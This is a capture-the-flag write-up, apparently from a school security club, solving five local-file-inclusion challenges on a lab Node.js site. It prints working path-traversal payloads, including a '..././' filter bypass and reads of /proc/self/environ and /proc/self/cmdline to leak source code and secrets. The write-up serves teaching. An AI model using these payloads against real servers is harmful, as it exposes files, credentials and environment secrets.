 ```yaml
---
layout: post
title:  "local file inclusion (lfi)"
date:   2021-10-11
categories: web
---
```


Last meeting, we talked about local file inclusion, which is a pretty dangerous vulnerability. We can read files we aren't supposed to, and in certain cases even gain code execution on the server itself, which is impossible to do with XSS.

The lecture can be found [here](https://docs.google.com/presentation/d/1t2_tqFF-Y_2YbOrqpOI1DQoF7KX-QttLKGd-qjn5npo/edit#slide=id.p).

As usual, there are multiple flags in increasing levels of difficulty.

1. [single traversal](#flag-1-single-traversal)
2. [double traversal](#flag-2-double-traversal)
3. [full source](#flag-3-full-source)
4. [environ](#flag-4-environ)
5. [cmdline](#flag-5-cmdline)

#### flag 1: single traversal
Assuming you have played around on the site, you probably noticed that the `/readFile` endpoint takes a URL parameter, `filename`. For example, `/readFile?filename=deetsicing%2Farchthumbs.png` would show you a very cool picture of a blue A with eyes and shades giving you a thumbs up.

![archthumbs.png](/writeups/assets/images/10-11-21/archthumbs.png)

Reading the source code hints that there is a flag at `./stuff/flag.txt`. However, the only files we can easily access are in `./stuff/things`.

![filesystem.png](/writeups/assets/images/10-11-21/fs.png)


Anything that we pass in as `filename` will be more or less just appended to `./stuff/things/`. See if you can reason out how the archthumbs.png is located.


To get out of `things/`, all we have to do is use the Linux shorthand for parent directory, `../`.

So the full path we want is `./stuff/things/../flag.txt`, and our `filename` will be `../flag.txt`.

Flag:
```
Flag 1: flag{up_up_4nd_4w4y}

This is a node.js project. What file is in every node.js project?
If you can't find it, try going up another directory or two.

Your goal is to use this file to leak the full source code.
```

#### flag 2: double traversal
Now it seems our goal is to get a file that all node.js project has. From some googling or background experience we know that we need a `package.json`. But `filename=../package.json` returns nothing. Let's try to go up one directory, with `../../package.json`.

But wait, in the source code it detects if we have 2 `../`s, and replaces them all with an empty string (deletes them out of the string):

```js
else if (traversals.length == 2) {
    // Okay maybe this is kinda bad.
    filepath = filepath.replace(/\.\.\//g, "");
}
```

However, consider a string x where x is made of substrings `a + b + c`. When b is filtered out, the remaining string will be `a + c`.

What if `a + c` formed `../` too, but `a` and `c` != `../`?

One possible solution is the string `..././`. The `../` will be filtered out, and a new `../` will be formed.

To go up two directories, we can stick two of them together to form a `../../` after the filter is applied.

So our final `filename` will be `..././..././package.json`.

Flag:
```json
{
    "name": "lfi",
    "version": "1.0.0",
    "description": "Flag 2: flag{y0u_f0und_th3_p4ck4ge_bu7_c4n_y0u_g3t_th3_s0urc3}",
    "main": "myprogram.js",
    "scripts": {
        "test": "echo \"all the 0 tests passed\""
    },
    "repository": {
        "type": "git",
        "url": "https://nunya.business"
    },
    "keywords": [
        "lfi"
    ],
    "author": "blairsec",
    "license": "UNLICENSED",
    "dependencies": {
        "express": "^4.17.1",
        "highlight.js": "^10.3.1",
        "morgan": "^1.10.0",
        "cookie-parser": "^1.4.5"
    }
}
```

#### flag 3: full source
Reading flag 2, we are encouraged to find the source code. The `main` key of `package.json` points us to `myprogram.js`, and we can use the same payload as for flag 2.

Filename: `..././..././myprogram.js`

```js
// Flag 3: flag{th3_s0urc3_n3v3r_t3lls_4_li3}
// Head over to the main page or to /sourceButBetter for a highlighted version :)
// this is all unimportant, scroll to the bottom
const express = require("express");
const morgan = require("morgan");
const fs = require("fs");
```


#### flag 4: environ

Reading the comment from flag 3, we go to `/sourceButBetter` to get a pretty and syntax-highlighted source code.

The important code is:
```js
// =========================================================
// this is where things get important
// =========================================================

const staticMount = "/static";
const staticDir = path.join(__dirname, "static");

// can you somehow get these values?
const superSecretFlag1 = process.env.LEFLAG;
const superSecretFlag2 = process.argv[2];

app.get(staticMount + "/*", (req, res) => {
    if (!req.originalUrl.startsWith(staticMount)) {
        res.type("text/plain")
            .status(400)
            .send("idk what wizardry you're pulling but I don't like it");
    }
    let filepath = req.originalUrl.substr(staticMount.length);
    if (!res.locals.authed && req.originalUrl.includes("../")) {
        // if you've leaked this source this won't be an issue
        // just make sure you send your requests with
        // the super_secret_password cookie
        res.type("text/plain")
            .status(400)
            .send("stop trying to skip steps smh my head");
    }
    const joined = path.join(staticDir, filepath);
    try {
        const contents = limitedRead(joined);
        res.type(path.extname(joined) || "text/plain").send(contents);
    } catch (err) {
        res.type("text/plain")
            .status(404)
            .send(debug ? `wtmoo there's no ${joined} file` : `file not found`);
    }
});
```

The gist of the source is that instead of using a `filename` parameter in the URL, we now need to use `/static/*` to include local files.

It also shows us that there are two flags, one in the environment variables and one in the command used to run the app (`argv`).

To achieve lfi, we can use `/static/?<path>`. I think the reason this works is that the `?` functions as both a query string (so the web proxy doesn't collapse it) and a "fake" directory to get out of (for lfi).

The issue with using `/static/../../../` and so on is that it will be collapsed into the site root, `lfi.blairsec.mbhs.edu/`, instead of the server's filesystem root.

Again, not too sure why it works but it does.

To look at a process' environment variables, we can read `/proc/self/environ`: `/static/?../../../../../../../proc/self/environ`. The `../` spam is to make sure that we are at the server root (`/`).

Flag: `flag{4lm0st_th3r3_jus7_0n3_m0r3_th1ng_t0_d0}`

#### flag 5: cmdline

Similarly for part 5, we can also just take advantage of `/proc/self` again and this time read `/proc/self/cmdline`, which will give the full command used to launch the process.

Flag: `flag{c0ng4ts_0n_g3tt1ng_4ll_th3_fl4gs}`

"congats".

~ josh